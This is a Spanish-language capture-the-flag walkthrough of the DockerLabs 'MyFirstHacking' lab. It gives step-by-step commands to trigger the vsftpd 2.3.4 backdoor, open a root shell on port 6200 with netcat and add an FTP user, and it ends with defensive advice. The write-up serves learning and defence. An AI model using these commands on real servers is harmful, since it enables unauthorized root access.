









# MyFirstHacking - DockerLabs

> Laboratorio realizado en entorno local/controlado con fines educativos.  
> No usar estos comandos contra sistemas, redes o servicios reales sin autorización expresa.

## Objetivo

Resolver la máquina **MyFirstHacking** de DockerLabs mediante el análisis de un servicio FTP vulnerable:

1. Levantar la máquina vulnerable.
2. Identificar el servicio FTP expuesto.
3. Detectar la versión vulnerable `vsftpd 2.3.4`.
4. Activar la backdoor en entorno controlado.
5. Conectar al puerto `6200`.
6. Comprobar acceso como `root`.
7. Crear una evidencia de la práctica.
8. Practicar una subida de archivo por FTP en el laboratorio.

## Información de la práctica

| Campo | Valor |
|---|---|
| Plataforma | DockerLabs |
| Máquina | MyFirstHacking |
| Entorno | Local / Docker |
| IP de ejemplo | `172.17.0.2` |
| Servicio principal | FTP |
| Puerto inicial | `21/tcp` |
| Versión vulnerable | `vsftpd 2.3.4` |
| Puerto abierto tras la backdoor | `6200/tcp` |
| Privilegios obtenidos | `root` |

> La IP puede cambiar en cada despliegue. Sustituye `172.17.0.2` por la IP que muestre tu terminal.

## 1. Despliegue de la máquina

Nos situamos en la carpeta donde está la máquina y ejecutamos el script de DockerLabs.

```bash
cd ~/Desktop/Laboratorio/firsthacking
sudo bash auto_deploy.sh firsthacking.tar
```



## 2. Reconocimiento con Nmap

Escaneamos los puertos y servicios expuestos.

```bash
nmap -p- -sC -sV --open -sS -n -Pn 172.17.0.2
```

Resultado relevante:

| Puerto | Servicio | Versión |
|---|---|---|
| `21/tcp` | FTP | `vsftpd 2.3.4` |



## 3. Búsqueda de vulnerabilidades

Buscamos información pública sobre la versión detectada.

```bash
searchsploit vsftpd 2.3.4
```



La versión `vsftpd 2.3.4` es conocida por una backdoor asociada a **CVE-2011-2523**. En este laboratorio, la backdoor se activa al intentar iniciar sesión con un usuario terminado en `:)`.

## 4. Activación de la backdoor FTP

Intentamos conectar al FTP con un usuario que active la backdoor.

```bash
ftp 'asd:)@172.17.0.2'
```

Cuando pida contraseña, puede introducirse cualquier valor en este entorno de laboratorio.



## 5. Comprobación del puerto 6200

Tras activar la backdoor, repetimos el escaneo y comprobamos que aparece el puerto `6200/tcp`.

```bash
nmap -p- -sC -sV --open -sS -n -Pn 172.17.0.2
```



## 6. Conexión con Netcat

Nos conectamos al puerto `6200` con Netcat.

```bash
nc -nv 172.17.0.2 6200
```



Si el puerto responde, obtenemos una shell en la máquina.

## 7. Comprobación de acceso y evidencia

Comprobamos identidad, privilegios y creamos una evidencia.

```bash
whoami
id
pwd
ls -la
echo "Laboratorio MyFirstHacking completado correctamente" > evidencia.txt
cat evidencia.txt
```



## 8. Creación de usuario FTP en laboratorio

Como parte adicional de la práctica, se crea un usuario para probar subida de archivos por FTP.

```bash
useradd -m -s /bin/bash ftphacker
echo "ftphacker:h1234" | chpasswd
id ftphacker
ls -ld /home/ftphacker
```



## 9. Subida de archivo por FTP

Desde Kali se crea un archivo de prueba y se sube mediante FTP.

```bash
echo "Archivo subido desde Kali por FTP" > prueba_ftp.txt
ftp 172.17.0.2
```

Credenciales usadas en el laboratorio:

| Usuario | Contraseña |
|---|---|
| `ftphacker` | `h1234` |

Dentro del cliente FTP:

```bash
put prueba_ftp.txt
ls
bye
```



## Problemas frecuentes

| Problema | Causa probable | Solución |
|---|---|---|
| `Connection refused` en el puerto 6200 | La backdoor no se activó | Conectar primero al FTP con un usuario terminado en `:)`. |
| No aparece el puerto 6200 | IP incorrecta o backdoor no activa | Repetir el proceso usando la IP correcta. |
| FTP no permite escritura | Configuración del servicio | Revisar `write_enable=YES` en el laboratorio. |
| No se puede subir el archivo | Usuario sin permisos o ruta incorrecta | Comprobar usuario, contraseña y directorio remoto. |

## Medidas defensivas

- No usar versiones vulnerables de servicios expuestos.
- Actualizar o retirar `vsftpd 2.3.4`.
- Limitar el acceso a FTP o sustituirlo por alternativas más seguras.
- Monitorizar puertos inesperados como `6200/tcp`.
- Revisar integridad de paquetes y servicios instalados.
- No permitir servicios obsoletos en producción.

## Resumen final

La práctica muestra cómo una versión vulnerable de FTP puede permitir acceso no autorizado en un laboratorio. El aprendizaje principal es la importancia de identificar versiones inseguras, actualizar servicios y monitorizar comportamientos anómalos en la red.
